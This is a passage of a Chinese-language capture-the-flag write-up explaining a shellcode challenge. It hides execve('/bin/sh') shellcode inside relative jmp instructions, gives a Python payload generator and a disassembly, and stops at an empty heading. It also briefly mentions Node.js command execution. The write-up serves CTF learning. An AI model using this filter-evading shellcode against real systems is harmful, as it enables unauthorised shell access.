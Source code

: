 关于 node 里面任意命令执行这件事，网上的文章都说有 `process.mainModule` 这个东西，但是我从来就没找到过它，去年也被这个问题困扰了。这是为什么呢？

## 简单题

这题想了很久，但是想出来发现很简单。

最开始想到 [movfuscator](https://github.com/xoreaxeaxeax/movfuscator) 这个东西，但是都用 mov 指令的话 syscall 怎么办呢？研究了一下这个项目是怎么搞的，没研究明白。于是自己想：能不能修改某个异常处理函数的地址到 syscall 指令的位置，然后执行非法的 mov 来触发异常处理逻辑？但是我对二进制文件这块不够熟悉，不知道该怎么搞。

又想到可以用一条指令来切换执行模式，比如换成 32 位模式甚至是其他模式，不同模式下同一串字节码可能代表不同的指令？

这时突然想到 x86 指令并不是定长的，所以其实可以 jmp 到指令中间，来执行别的指令，但是 jmp 的地址怎么写呢？mmap 的可是随机地址，不能预测。查了一下才意识到其实 jmp 的是相对的地址，并不是绝对的地址，这条路行得通，马上构造 payload。

随便找了个 shellcode，但是里面有一个特别长的 push，而 jmp 之后只有 4 个字节可以用来塞指令，所以我把它改写成了一堆 mov 和左移操作。

最终 payload：

```python
instructions = ['31c0',    '66bb97ff','48c1e310','66bbd08c','48c1e310','66bb9691','48c1e310','66bbd19d'     , '48f7db', '53', '54', '5f', '99', '52', '57', '54', '5e', 'b03b', '0f05']
code = b''
for i in instructions:
    code += bytes.fromhex('e901000000')
    code += bytes.fromhex('e9' + i + '90' * (4 - len(i) // 2))
print(code.hex())
import base64
print(base64.b64encode(code))
```

实际执行的指令：

```
0x0+2:	xor	eax, eax
0x2+4:	mov	bx, 0xff97
0x6+4:	shl	rbx, 0x10
0xa+4:	mov	bx, 0x8cd0
0xe+4:	shl	rbx, 0x10
0x12+4:	mov	bx, 0x9196
0x16+4:	shl	rbx, 0x10
0x1a+4:	mov	bx, 0x9dd1
0x1e+3:	neg	rbx
0x21+1:	push	rbx
0x22+1:	push	rsp
0x23+1:	pop	rdi
0x24+1:	cdq
0x25+1:	push	rdx
0x26+1:	push	rdi
0x27+1:	push	rsp
0x28+1:	pop	rsi
0x29+2:	mov	al, 0x3b
0x2b+2:	syscall
```

题目代码解析出来的指令：
